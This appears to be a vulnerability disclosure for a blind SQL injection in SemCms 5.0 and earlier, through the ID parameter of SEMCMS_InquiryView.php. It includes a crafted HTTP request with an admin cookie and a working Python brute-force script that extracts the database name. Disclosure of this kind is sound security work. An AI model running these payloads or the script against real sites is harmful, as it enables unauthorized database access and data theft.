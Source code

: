 # SemCms <= 5.0 has a SQL Injection Vulnerability
##### Vulnerability Location: SEMCMS_InquiryView.php
##### Affected Range: SemCms <= 5.0
##### Vulnerability Cause: SemCms <= v5.0 was discovered to contain a SQL injection vulnerability.This allows an attacker to execute arbitrary code via the ID parameter in the SEMCMS_InquiryView.php component.
##### Vulnerability Impact: Obtain database access rights, and even DBA permissions.
##### Link:https://www.sem-cms.com/

# Vulnerability recurrence

After entering the background.

![image](https://github.com/user-attachments/assets/d9c6c1ee-b05d-47e7-b060-6bdbfa35c8d8)

When ID=1, there is relevant content, but when ID=2, there is no related content. Therefore, Boolean blind annotation is used to determine the length of the database name:

![image](https://github.com/user-attachments/assets/8814064b-8a15-49ad-95a6-3102f6e31e8f)
![image](https://github.com/user-attachments/assets/079473ff-5645-4b18-a048-24de2a04c4db)

Finally, the length of the database name is obtained as 8. Next, determine the specific value of the database name:

![image](https://github.com/user-attachments/assets/ebb5a85d-2449-4a07-aeba-6ffaadeea461)

Finally, the database username is obtained as semcms50, and the yakit data packet:

```
GET /admin/SEMCMS_InquiryView.php?ID=if(substr(database(),{{int(1-8)}},1)+like+"{{payload(word)}}",1,2) HTTP/1.1
Host: localhost:83
Upgrade-Insecure-Requests: 1
Cookie: scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Accept-Encoding: gzip, deflate, br, zstd
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
sec-ch-ua-mobile: ?0
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua: "Google Chrome";v="137", "Chromium";v="137", "Not/A)Brand";v="24"
sec-ch-ua-platform: "Windows"
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
```

# Code Analysis
Line 7 of `SEMCMS_InquiryView.php`

![image](https://github.com/user-attachments/assets/b2f79a77-7a88-410b-bfd8-c5846bc5c428)

The ID parameter is obtained through the GET method and directly concatenated into the SQL statement, thus there is an SQL injection vulnerability

# Vulnerability exploitation script

```
import requests
import string
import time
from urllib.parse import parse_qs, urlencode
# 需要通过页面的回显来修改判断的条件
# 需要后台路径
# 需要更新Cookie

# 发送请求
def send_request(url, headers):
    try:
        response = requests.get(
            url,
            headers=headers,
            timeout=10,
            verify=False
        )

        return response
    except Exception as e:
        print(f"请求失败: {e}")
        return None


# 爆破数据库名长度
def database_length():
    print("[*] 开始爆破数据库名长度...")
    for i in range(1,20):
        base_url = url + f'if(length(database())>{i},999,1)'
        resp = send_request(base_url,header).text
        if 'Smart' in resp:
            print("数据库名长度为：" + str(i))
            return i 
            

# 爆破数据库名
def exploit_sql_injection(url, header, db_len):
    
    
    db_name = ""
    
    max_length = 32  # 假设数据库名最大长度
    
    # 字符集：小写字母、数字、常见符号
    charset = string.ascii_lowercase + string.digits + "-$@! "
    

    print("[*] 开始爆破数据库名...")

    for i in range(1,db_len+1):
        for j in charset:
            base_url = url + f'if(substr(database(),{i},1) like "{j}",1,999)'
            resp = send_request(base_url, header).text
            if 'Smart' in resp:
                db_name += str(j)
                print(f"[+] 第{i}个位置的字符: '{j}' 匹配成功, 当前: {db_name}")
                break

    
    print(f"[*] 爆破完成! 数据库名: {db_name}")
    return db_name

if __name__ == "__main__":
    url = f"http://192.168.124.6:81/VvK4qw_Admin/SEMCMS_InquiryView.php?ID="
    
    db_len = 0

    header = {
        "Cookie":"scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b"
    }

    db_len = database_length()

    if(db_len != 0):
        exploit_sql_injection(url, header,db_len)
    

```
